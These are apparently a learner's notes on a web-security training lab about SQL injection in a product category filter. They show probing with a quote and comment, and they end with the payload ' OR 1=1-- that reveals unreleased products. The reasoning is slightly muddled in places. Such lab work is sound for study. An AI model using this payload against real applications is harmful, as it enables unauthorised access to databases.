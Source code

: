 SQL injection - product category filter

Example query:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Example request:
`https://acf91f4a1e4d883480026db800f10008.web-security-academy.net/filter?category=Gifts`

`?category=` likely to be vulnerable to SQLi

End goal: display all products both released and unreleased

## Analysis:

Check if the app is vulnerable to SLQi by adding `'`

E.g`?category='` This caused an internal server error and makes
me think it is vulnerable

Also tried with a comment:
`SELECT * FROM products WHERE category = ''--' AND released = 1`
E.g`?category='--` This caused an internal server error and makes
me think it is vulnerable

`SELECT * FROM products WHERE category = ''--' AND released = 1`

This returns all products and all published states because,
category is an empty string and 1=1 resolves to true
`SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1`

